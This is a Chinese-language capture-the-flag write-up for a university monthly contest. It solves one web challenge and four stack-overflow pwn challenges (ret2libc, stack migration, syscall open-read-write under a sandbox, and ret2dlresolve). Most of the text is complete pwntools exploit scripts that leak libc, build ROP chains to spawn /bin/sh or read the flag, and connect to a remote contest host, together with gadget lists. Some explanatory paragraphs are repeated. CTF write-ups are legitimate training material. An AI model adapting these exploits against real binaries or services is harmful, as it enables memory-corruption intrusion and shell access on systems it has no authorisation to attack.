








NEUQCSA 2023年10月-月赛 WriteUp
得分/解题 情况总览


level1-Login
直接看HTML，发现有一串base64加密的字符串，直接解密就是flag
ret2libc
Q:请嗯造libc
A:我嗯造libc
A:我嗯造libc
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
p=remote('8.130.110.158',2110)
func_addr=elf.got['write']
write_addr=elf.plt['write']
pop_rdi=0x4012a3
pop_rsi2=0x4012a1
ret=0x40101a
vuln=0x4011db
payload= b'a'*0x10+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadbeef)+p64(write_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['write']
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
pause()
payload=b'a'*0x10+p64(pop_rdi)+p64(sh)+p64(system_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
p.interactive()
# 0x000000000040129c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012a0 : pop r14 ; pop r15 ; ret
# 0x00000000004012a2 : pop r15 ; ret
# 0x000000000040129b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040115d : pop rbp ; ret
# 0x00000000004012a3 : pop rdi ; ret
# 0x00000000004012a1 : pop rsi ; pop r15 ; ret
# 0x000000000040129d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
Stack_Migration
字面意思，栈可以到处跑
正常审题程序不再罗列（checksec、IDA看字符串啥的）。
IDA中发现有沙箱


依旧是发现栈溢出。

考虑到没法直接执行shellcode，因此只能构建ROP链。实现以下功能：
正常审题程序不再罗列（checksec、IDA看字符串啥的）。
IDA中发现有沙箱

依旧是发现栈溢出。
考虑到没法直接执行shellcode，因此只能构建ROP链。实现以下功能：
char*file='flag';
open(file,0,0);
read(3,file,0x30);
write(1,file,0x30);from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2109)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
bss_st=0x4040A0
bss_tar=0x4040A0+0x200
flag_name=0x4040a0+0x200-8
flag_addr=bss_st+0x300-0x40
pop_rdi=0x401373
pop_rsi2=0x401371
leave=0x4012e6
func_addr=elf.got['read']
write_addr=elf.plt['write']
read_addr=elf.plt['read']
vuln=0x401279
payload1=b'a'*(0x200-0x8)+b'flag\x00\x00\x00\x00'+p64(bss_tar+0x100)+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(write_addr)+p64(0x4012a3)
p.sendlineafter('everywhere',payload1)
migr_pay=b'a'*0x8+p64(bss_tar)+p64(leave)
p.sendafter('voice :',migr_pay)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['read']
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pause()
payload2=p64(bss_st+0x100)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open64_addr)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
payload2+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)+p64(vuln)
p.sendline(payload2)
migr_pay=b'a'*0x8+p64(bss_st)+p64(leave)
p.sendafter('voice :',migr_pay)
p.interactive()
# 0x000000000040136c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401370 : pop r14 ; pop r15 ; ret
# 0x0000000000401372 : pop r15 ; ret
# 0x000000000040136b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401373 : pop rdi ; ret
# 0x0000000000401371 : pop rsi ; pop r15 ; ret
# 0x000000000040136d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040121a : ret 0xfffe
# in libc
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; retcall me sys
syscall，但是只能用几个函数
又是沙箱：


还是栈溢出漏洞：

由于没有关掉open,write,read函数，所以这题思路和上题一样。（题目说有三种方法，日后钻研）
又是沙箱：

还是栈溢出漏洞：

由于没有关掉open,write,read函数，所以这题思路和上题一样。（题目说有三种方法，日后钻研）
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2111)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
func_addr=elf.got['setvbuf']
syscall_ret=0x4012ec
pop_rdi=0x401363
pop_rsi2=0x401361
p.sendline("000")
payload=b'a'*0x78+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(0x401291)
pause()
p.sendline(payload)
p.recvuntil(b'./f1ag')
p.recv(2)
# p.recvuntil(b'./f1ag\x00\x00\x00')
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['setvbuf']
print(hex(func_addr))
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
flag_name=0x4040e0
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pop_rax=0x36174+base
payload=b'flag\x00\x00\x00\x00'
pause()
p.send(payload)
payload=b'a'*0x78+p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)+p64(syscall_ret)+p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(0x401270)
pause()
p.send(payload)
p.interactive(0)
# 0x000000000040135c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401360 : pop r14 ; pop r15 ; ret
# 0x0000000000401362 : pop r15 ; ret
# 0x000000000040135b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040119d : pop rbp ; ret
# 0x0000000000401363 : pop rdi ; ret
# 0x0000000000401361 : pop rsi ; pop r15 ; ret
# 0x000000000040135d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040127e : ret 0x14
# 0x00000000004012e7 : ret 0x200
# 0x00000000004012ba : ret 0x4c
# 0x000000000040129c : ret 0x50
# offset in libc
# 0x0000000000036174 : pop rax ; ret
close
Q:你leak不了一点！hacker！！
A:？？？？？？
依旧是栈溢出，这次没有沙箱了。但是把标准输出关闭了。这意味着我们需要把标准输出重定向才能获得flag

既然我们在get shell之前没办法获得任何输出，那么我们必须采用一种不依赖于泄露东西的方法。
于是毋庸置疑，关于泄露libc地址的方法直接一票否决了。
于是考虑使用ret2dlresolve来调用shell。
这里使用生成的payload
原本是想用system("/bin/sh")的，但是发现system好像有些神秘问题导致显示：

于是采用execve("/bin/sh",0,0)来获取shell
但是由于没有直接pop rdx的gadget，我们使用csu来进行rdx的修改。（注意这里面的call和判断,标记起来了）：

所以我们先把想要的rdx的值pop到r14里面，然后返回到0x4012300那里，把r14赋给rdx。这里绕过判断就是让rbx和rbp值相等。这里多调试几下就OK了
之后就get到shell了。这时候我们要把标准输出重定向到标准错误里面，即exec 1>&2
hint:网上关于标准输出被关闭的情况，有教程：exec 1>&0。但是似乎ubuntu 20不太好使。 可以选择把输出重定向给标准错误（2）
A:？？？？？？
依旧是栈溢出，这次没有沙箱了。但是把标准输出关闭了。这意味着我们需要把标准输出重定向才能获得flag

既然我们在get shell之前没办法获得任何输出，那么我们必须采用一种不依赖于泄露东西的方法。
于是毋庸置疑，关于泄露libc地址的方法直接一票否决了。
于是考虑使用ret2dlresolve来调用shell。
这里使用生成的payload
原本是想用system("/bin/sh")的，但是发现system好像有些神秘问题导致显示：
于是采用execve("/bin/sh",0,0)来获取shell
但是由于没有直接pop rdx的gadget，我们使用csu来进行rdx的修改。（注意这里面的call和判断,标记起来了）：
所以我们先把想要的rdx的值pop到r14里面，然后返回到0x4012300那里，把r14赋给rdx。这里绕过判断就是让rbx和rbp值相等。这里多调试几下就OK了
之后就get到shell了。这时候我们要把标准输出重定向到标准错误里面，即exec 1>&2
hint:网上关于标准输出被关闭的情况，有教程：exec 1>&0。但是似乎ubuntu 20不太好使。 可以选择把输出重定向给标准错误（2）
from pwn import *
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
context.binary = elf = ELF("./pwn")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="execve",args=["/bin/sh",0])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# io = process("./pwn")
# io=process(['./ld-linux-x86-64.so.2', './pwn'], env={"LD_PRELOAD":'./libc.so.6'})
# io=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
io=remote('8.130.110.158',7001)
# gdb.attach(io)
payload0 = flat({0x98:raw_rop})
io.sendlineafter('name',"fuck")
payload1=b'a'*0x90+p64(0x404e90)+p64(0x40127c)
io.sendlineafter('response',payload1)
pause()
io.sendline(dlresolve.payload.ljust(0x90,b'\x00')+p64(0x404ff0)+p64(0x401323)+p64(0x402018)+p64(0x40131a)+p64(0)+p64(1)+p64(0x402018)+p64(0)+p64(0)+p64(elf.got['alarm'])+p64(0x401300)+p64(0x404e90)+p64(0x404ff0)+p64(0x401230)+p64(0)+p64(0)+p64(0)+raw_rop[40:])
# pause()
# io.sendline(dlresolve.payload)
# io=remote('8.130.110.158',7001)
io.sendline(b"exec 1>&2")
io.sendline(b"ls")
io.interactive()
# 0x404e90
# 0x000000000040131c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401320 : pop r14 ; pop r15 ; ret
# 0x0000000000401322 : pop r15 ; ret
# 0x000000000040131b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401323 : pop rdi ; ret
# 0x0000000000401321 : pop rsi ; pop r15 ; ret
# 0x000000000040131d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret